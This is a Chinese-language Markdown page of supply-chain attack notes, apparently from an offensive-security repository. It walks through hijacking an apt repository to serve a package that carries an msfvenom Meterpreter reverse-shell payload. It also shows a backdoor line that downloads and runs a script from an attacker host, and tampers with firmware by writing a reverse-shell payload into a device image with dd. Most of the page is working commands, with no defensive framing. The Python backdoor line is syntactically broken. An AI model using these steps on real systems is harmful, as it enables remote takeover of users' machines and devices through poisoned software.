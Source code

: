 ### 安装源劫持

```bash
cat /etc/apt/sources.list
echo "deb http://IP地址或域名/repo/ ./" > /etc/apt/sources.list
mkdir -p /var/www/html/repo
```


repo目录里创建一个package目录，并在该目录里创建etc和DEBIAN目录

```bash
├── package
│   ├── etc
│   │   ├── linux_shell
│   │   └── hello.py
│   └── DEBIAN
│       └── control
```

linux_shell:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=IP地址 lport=4444 -f elf > linux_shell
```

[control](供应链攻击/control)

```bash
cd repo
dpkg-deb --build package
```

[Release](供应链攻击/Release)

```bash
apt-get install gnupg
gpg --gen-key
dpkg-scanpackages . /dev/null | gzip -9c > Packages.gz
gpg --default-key "密钥ID" -abs -o - Release > Release.gpg
gpg --default-key "密钥ID" --clearsign -o InRelease Release
gpg --export -a "密钥ID" > public.key
```

```bash
apt-key add public.key
sudo apt update && sudo apt upgrade
```

### 软件后门

[backdoor.py](供应链攻击/backdoor.py)

注入后门

```bash
import os

//替换为攻击者地址
os.system("curl -O http://IP地址或域名/backdoor.py" && python backdoor.py)
```

### 纂改硬件设备

```bash
firmware-extractor --device /dev/sdX
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f raw > malicious.bin
dd if=malicious.bin of=网卡固件 bs=1 seek=$OFFSET conv=notrunc
dd if=恶意固件 of=/dev/sdX
```

[IoTGoat](https://github.com/OWASP/IoTGoat/releases/tag/v1.0)

```bash
binwalk -ev IoTGoat-raspberry-pi2.img --run-as=root
```

[firmwalker](https://github.com/craigz28/firmwalker)

```bash
./firmwalker.sh /root/hardware/_IoTGoat-raspberry-pi2.img.extracted/squashfs-root
/etc/passwd | /etc/shadow
```

[/etc/rc.local](供应链攻击/rc.local)

```bash
cd squashfs-root
mksquashfs . ../new_filesystem.squashfs
```

```bash
binwalk IoTGoat-raspberry-pi2.img
cd _IoTGoat-raspberry-pi2.img.extracted
dd if=new_filesystem.squashfs of=../IoTGoat-raspberry-pi2.img bs=512 seek=57344 conv=notrunc
```
